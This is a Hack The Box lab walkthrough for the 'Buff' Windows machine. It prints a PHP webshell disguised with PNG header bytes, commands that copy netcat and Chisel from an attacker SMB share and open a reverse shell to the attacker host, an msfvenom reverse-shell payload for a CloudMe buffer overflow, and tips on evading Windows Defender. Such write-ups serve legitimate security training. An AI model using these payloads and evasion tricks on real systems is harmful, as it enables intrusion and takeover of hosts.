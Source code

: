 ## HTB: Buff Walkthrough

### Overview
- **Machine Name:** Buff
- **IP Address:** 10.10.10.198
- **OS:** Windows
- **Difficulty:** Easy
- **Points:** 20

---

### Recon

#### Nmap Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.198
nmap -p 7680,8080 -sC -sV -oA scans/nmap-tcpscans 10.10.10.198
```
- Ports Open:
  - 8080: Apache httpd 2.4.43 (Win64) PHP/7.4.6
  - 7680: Unknown

#### Gobuster
```bash
gobuster dir -u http://10.10.10.198:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php -t 40 -o scans/gobuster-root-small-php
```
- Interesting Directories:
  - /upload.php
  - /register.php
  - /about.php
  - /admin

---

### Initial Exploit

#### Identifying the Application
- Web app identified as **Gym Management System** from **Projectworlds.in**
- Confirmed via `/README.md` and `/contact.php`

#### Searchsploit
```bash
searchsploit gym management
```
- Found: **Gym Management System 1.0 - Unauthenticated RCE** (48506.py)

#### Webshell Upload
- Upload bypass via double extension: `shell.php.png`
- Upload via `upload.php?id=yourname`
- PHP shell content starts with PNG magic bytes:
```php
\x89\x50\x4e\x47\x0d\x0a\x1a\n<?php echo shell_exec($_REQUEST["cmd"]); ?>
```
- Trigger shell:
```bash
curl http://10.10.10.198:8080/upload/yourname.php?cmd=whoami
```

#### Upgrade Shell
- Serve nc64.exe over SMB using impacket’s smbserver:
```bash
smbserver.py share . -smb2support -username df -password df
```
- On Buff:
```cmd
net use \\10.10.14.20\share /u:df df
copy \\10.10.14.20\share\nc64.exe C:\programdata\nc.exe
C:\programdata\nc.exe -e cmd.exe 10.10.14.20 443
```
- Start listener:
```bash
rlwrap nc -lvnp 443
```

---

### Privilege Escalation

#### Enumeration
- Local port 8888 used by `CloudMe.exe`
- Found `CloudMe_1112.exe` in Downloads

#### Searchsploit
```bash
searchsploit cloudme
```
- Found: **CloudMe 1.11.2 - Buffer Overflow (48389.py)**

#### Setup Tunnel with Chisel
- Upload chisel client:
```cmd
copy \\10.10.14.20\share\chisel.exe C:\programdata\chisel.exe
```
- Start server on Kali:
```bash
chisel server -p 8000 --reverse
```
- Connect from Buff:
```cmd
chisel.exe client 10.10.14.20:8000 R:8888:127.0.0.1:8888
```

#### Modify Exploit Payload
- Use msfvenom to generate reverse shell:
```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.20 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
```
- Replace payload in `48389.py`
- Run exploit:
```bash
python3 cloudme-bof.py
```
- Get admin shell at listener

---

### Flags
- **User:** `e9ff7f33************************`
- **Root:** `0e2cf4e5************************`

---

### Beyond Root

#### Gym Exploit Analysis
- Exploit uses `/upload.php` with `id` param to upload shell
- Bypasses extension filter with `.php.png`
- Bypasses MIME filter with correct Content-Type and PNG header

#### Defender Evasion
- Upload fails with `system()` due to AV
- Upload succeeds with `shell_exec()`
- Alternate bypass: inject HTML tags to evade Defender signature detection

---

### Summary
HTB: Buff is an excellent beginner-friendly box emulating an OSCP-style workflow: from web exploitation to bypassing upload filters, to privilege escalation through buffer overflow in a local service. The use of Chisel for tunneling and awareness of AV evasion techniques adds valuable depth to the learning experience.

